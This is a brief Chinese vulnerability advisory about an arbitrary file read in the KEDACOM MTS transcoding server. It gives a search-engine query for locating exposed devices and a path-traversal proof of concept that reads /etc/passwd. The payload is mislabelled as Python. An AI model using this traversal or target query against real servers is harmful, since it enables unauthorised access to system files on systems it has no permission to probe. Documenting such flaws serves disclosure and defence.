

# 科达 MTS转码服务器 任意文件读取漏洞

## 漏洞描述

KEDACOM MTS转码服务器存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

<a-checkbox checked>MTS转码服务器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="MTS转码服务器"</a-checkbox></br>

## 漏洞复现

登录页面



验证POC

```python
/../../../../../../../../etc/passwd
```

